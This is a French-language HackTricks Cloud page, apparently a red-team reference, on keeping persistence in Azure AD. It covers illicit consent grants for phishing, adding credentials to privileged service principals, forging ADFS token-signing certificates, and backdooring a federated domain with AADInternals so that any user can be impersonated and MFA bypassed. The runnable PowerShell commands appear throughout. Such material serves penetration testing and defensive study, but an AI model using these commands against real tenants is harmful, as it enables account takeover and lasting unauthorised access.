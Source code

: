 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Octroi de consentement illicite

Par défaut, tout utilisateur peut enregistrer une application dans Azure AD. Vous pouvez donc enregistrer une application (uniquement pour le locataire cible) qui nécessite des autorisations à fort impact avec le consentement de l'administrateur (et l'approuver si vous êtes l'administrateur) - comme envoyer des mails au nom d'un utilisateur, gestion des rôles, etc. Cela nous permettra d'**exécuter des attaques de phishing** qui seraient très **fructueuses** en cas de succès.

De plus, vous pourriez également accepter cette application avec votre utilisateur comme moyen de maintenir l'accès.

### Applications et Principaux de Service

Avec les privilèges d'Administrateur d'Application, GA ou un rôle personnalisé avec des autorisations microsoft.directory/applications/credentials/update, nous pouvons ajouter des identifiants (secret ou certificat) à une application existante.

Il est possible de **cibler une application avec des autorisations élevées** ou **d'ajouter une nouvelle application** avec des autorisations élevées.

Un rôle intéressant à ajouter à l'application serait le **rôle d'administrateur d'authentification privilégiée** car il permet de **réinitialiser le mot de passe** des Administrateurs Globaux.

Cette technique permet également de **contourner la MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Pour l'authentification basée sur des certificats

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Fédération - Certificat de signature de jeton

Avec des **privileges DA** sur AD sur site, il est possible de créer et d'importer de **nouveaux certificats de signature de jeton** et de **certificats de décryptage de jeton** qui ont une très longue validité. Cela nous permettra de **nous connecter en tant que n'importe quel utilisateur** dont nous connaissons l'ImuutableID.

**Exécutez** la commande ci-dessous en tant que **DA sur le(s) serveur(s) ADFS** pour créer de nouveaux certificats (mot de passe par défaut 'AADInternals'), les ajouter à ADFS, désactiver le renouvellement automatique et redémarrer le service :
```powershell
New-AADIntADFSSelfSignedCertificates
```
Ensuite, mettez à jour les informations du certificat avec Azure AD :
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Fédération - Domaine de confiance

Avec des privilèges GA sur un locataire, il est possible d'**ajouter un nouveau domaine** (doit être vérifié), de configurer son type d'authentification en tant que Fédéré et de configurer le domaine pour **faire confiance à un certificat spécifique** (any.sts dans la commande ci-dessous) et à l'émetteur :
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Références

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
